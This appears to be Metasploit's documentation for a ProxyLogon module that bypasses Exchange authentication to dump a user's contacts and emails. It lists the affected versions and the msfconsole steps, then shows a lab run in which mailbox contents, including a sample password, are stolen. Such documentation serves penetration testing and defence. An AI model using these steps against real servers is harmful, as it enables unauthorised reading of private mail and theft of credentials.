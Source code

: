 ## Vulnerable Application

  This vulnerability affects (Exchange 2013 Versions < 15.00.1497.012, Exchange 2016 CU18 < 15.01.2106.013,
  Exchange 2016 CU19 < 15.01.2176.009, Exchange 2019 CU7 < 15.02.0721.013, Exchange 2019 CU8 < 15.02.0792.010).

### Introduction

  An issue was discovered in Microsoft Exchange Server that allows an attacker bypassing the authentication and
  impersonating as the admin (CVE-2021-26855). By chaining this bug with another post-auth arbitrary-file-write
  vulnerability to get code execution (CVE-2021-27065).

  As a result, an unauthenticated attacker can execute arbitrary commands on Microsoft Exchange Server.

  All components are vulnerable by default.

## Verification Steps

1. Start msfconsole
2. Do: `use auxiliary/gather/exchange_proxylogon`
3. Do: `set RHOSTS [IP]`
4. Do: `set EMAIL [EMAIL ADDRESS]`
5. Do: `set SERVER_NAME [SERVER_NAME]`
6. Do: `run`

## Options
1. `EMAIL`. The email account what you want dump
2. `FOLDER`. The email folder what you want dump. Default: `inbox`
3. `Proxies`. This option is not set by default.
4. `RPORT`. The default setting is `443`. To use: `set RPORT [PORT]`
5. `SERVER_NAME`. The name of secondary internal Exchange server targeted.
6. `SSL`. The default setting is `true`.
7. `VHOST`. This option is not set by default.

## Scenarios

```
msf6 auxiliary(gather/exchange_proxylogon) > options 

Module options (auxiliary/gather/exchange_proxylogon):

   Name         Current Setting           Required  Description
   ----         ---------------           --------  -----------
   EMAIL        gaston.lagaffe@pwned.lab  yes       The email account what you want dump
   FOLDER       inbox                     yes       The email folder what you want dump
   Proxies                                no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS       172.20.2.110              yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT        443                       yes       The target port (TCP)
   SERVER_NAME  SERVER2                   yes       The name of the Exchange server targeted
   SSL          true                      no        Negotiate SSL/TLS for outgoing connections
   VHOST                                  no        HTTP server virtual host

msf6 auxiliary(gather/exchange_proxylogon) > run
[*] Running module against 172.20.2.110

[*] Connection to the server is successful
[*]  - selected account: gaston.lagaffe@pwned.lab

[*] Attempt to dump contacts list for this user
[+]  - file saved to /home/mekhalleh/.msf4/loot/20210309225141_default_172.20.2.110__852485.txt

[*] Attempt to dump emails for this user
[*]  - selected folder: inbox (AQAYAGdhc3Rvbi5sYWdhZmYAZUBwd25lZC5sYWIALgAAA+uQmQIqiSJLiXyYWVYT65MBACRuvwACXEpAuhG13iUjVgwAAAIBDAAAAA==)
[*]  - number of email found: 2
[*]  - download item: CQAAABYAAAAkbr8AAlxKQLoRtd4lI1YMAAAAAAEc
[+]  - file saved to /home/mekhalleh/.msf4/loot/20210309225141_default_172.20.2.110__150371.txt
[*]  - download item: CQAAABYAAAAkbr8AAlxKQLoRtd4lI1YMAAAAAAEX
[+]  - file saved to /home/mekhalleh/.msf4/loot/20210309225141_default_172.20.2.110__662077.txt
[*] Auxiliary module execution completed
msf6 auxiliary(gather/exchange_proxylogon) > cat /home/mekhalleh/.msf4/loot/20210309225141_default_172.20.2.110__662077.txt
[*] exec: cat /home/mekhalleh/.msf4/loot/20210309225141_default_172.20.2.110__662077.txt

Received: from exch2k16.pwned.lab (172.20.2.110) by exch2k16.pwned.lab
 (172.20.2.110) with Microsoft SMTP Server (TLS) id 15.1.225.42 via Mailbox
 Transport; Tue, 9 Mar 2021 00:45:07 +0400
Received: from exch2k16.pwned.lab (172.20.2.110) by exch2k16.pwned.lab
 (172.20.2.110) with Microsoft SMTP Server (TLS) id 15.1.225.42; Tue, 9 Mar
 2021 00:45:07 +0400
Received: from exch2k16.pwned.lab ([fe80::149f:ecd5:e73f:a1da]) by
 exch2k16.pwned.lab ([fe80::149f:ecd5:e73f:a1da%12]) with mapi id
 15.01.0225.041; Tue, 9 Mar 2021 00:45:07 +0400
From: Gaston LAGAFFE <gaston.lagaffe@pwned.lab>
To: Gaston LAGAFFE <gaston.lagaffe@pwned.lab>
Subject: You strong password
Thread-Topic: You strong password
Thread-Index: AQHXFFvsra30q8OYg0uREmmfQA0DOg==
Date: Mon, 8 Mar 2021 20:45:07 +0000
Message-ID: <a866c18d2f5845ceb96574e7a33553b8@pwned.lab>
Accept-Language: fr-FR, en-US
Content-Language: fr-FR
X-MS-Exchange-Organization-AuthAs: Internal
X-MS-Exchange-Organization-AuthMechanism: 04
X-MS-Exchange-Organization-AuthSource: exch2k16.pwned.lab
X-MS-Has-Attach:
X-MS-Exchange-Organization-Network-Message-Id:
	b6335683-ea6f-4115-edb7-08d8e2730ef3
X-MS-Exchange-Organization-SCL: -1
X-MS-TNEF-Correlator:
Content-Type: multipart/alternative;
	boundary="_000_a866c18d2f5845ceb96574e7a33553b8pwnedlab_"
MIME-Version: 1.0

--_000_a866c18d2f5845ceb96574e7a33553b8pwnedlab_
Content-Type: text/plain; charset="iso-8859-1"
Content-Transfer-Encoding: quoted-printable

Hello Gaston,


Your password is: P@ssw0rd123


Kind Regards.

Admin.

--_000_a866c18d2f5845ceb96574e7a33553b8pwnedlab_
Content-Type: text/html; charset="iso-8859-1"
Content-Transfer-Encoding: quoted-printable

<html>
<head>
<meta http-equiv=3D"Content-Type" content=3D"text/html; charset=3Diso-8859-=
1">
<style type=3D"text/css" style=3D"display:none;"><!-- P {margin-top:0;margi=
n-bottom:0;} --></style>
</head>
<body dir=3D"ltr">
<div id=3D"divtagdefaultwrapper" style=3D"font-size:12pt;color:#000000;back=
ground-color:#FFFFFF;font-family:Calibri,Arial,Helvetica,sans-serif;">
<p>Hello Gaston,</p>
<p><br>
</p>
<p>Your password is: P@ssw0rd123</p>
<p><br>
</p>
<p>Kind Regards.</p>
<p>Admin.</p>
</div>
</body>
</html>

--_000_a866c18d2f5845ceb96574e7a33553b8pwnedlab_--
msf6 auxiliary(gather/exchange_proxylogon) > 
```

## References

1. <https://proxylogon.com/>
2. <https://raw.githubusercontent.com/microsoft/CSS-Exchange/main/Security/http-vuln-cve2021-26855.nse>
